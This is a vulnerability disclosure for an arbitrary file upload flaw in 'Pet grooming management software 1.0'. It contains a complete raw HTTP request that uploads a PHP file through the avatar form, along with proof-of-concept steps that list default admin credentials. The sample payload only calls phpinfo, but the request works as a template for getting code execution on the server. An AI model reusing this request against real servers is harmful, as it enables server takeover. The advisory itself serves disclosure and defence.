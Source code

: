 

# Pet grooming management software  - Arbitrary File Upload

#### Exploit Title: Pet grooming management software - Arbitrary File Upload

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: [https://www.sourcecodester.com](https://www.sourcecodester.com/)

#### Software Link:https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

#### Version: Pet grooming management software 1.0

#### Tested on: Windows 10, Apache ,Mysql

#### Description

Pet grooming management software has an arbitrary file upload vulnerability. In the upload avatar function, due to insufficient filtering of file suffixes, attackers can exploit this vulnerability to gain server privileges by uploading malicious files.

#### Payload used:

```
POST /admin/profile.php HTTP/1.1
Host: 192.168.67.28:8021
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://192.168.67.28:8021/admin/profile.php
Cookie: PHPSESSID=nn7i1gq9g3c5789ch9hgs6nogg
Cache-Control: max-age=0
Origin: http://192.168.67.28:8021
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVGAiR4ALFtG8cq4R
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 1376

------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="old_website_image"

2.jpg
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="website_image"; filename="111.php"
Content-Type: text/plain

<?php phpinfo(); ?>
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="fname"

Mayuri
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="lname"

K
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="dob"

K
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="email"

mdkhairnar92@gmail.com
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="gender"

Male
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="contact"

+919529230459
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="username"

mayurik
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="address"

Pawfect Grooming Studio,Shop No. 9, Bella Vista Arcade, Banjara Hills,Hyderabad, Telangana – 500034                                                                                                                                                                  
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="update"


------WebKitFormBoundaryVGAiR4ALFtG8cq4R--
```

#### Proof of Concept

1、Log in to the system using the default password mdkhairnar92@gmail.com: admin

2、Upload the file and capture the package at the avatar upload location

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpage.png)

3、Modify the website_image to the PHP malicious file we are about to upload

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpayload.png)

4、After sending the request packet, the file can be accessed on the page, and the PHP file has been parsed, displaying information related to PHPINfo.


![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadfile.png)

5、Source code related to vulnerabilities.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/code.png)
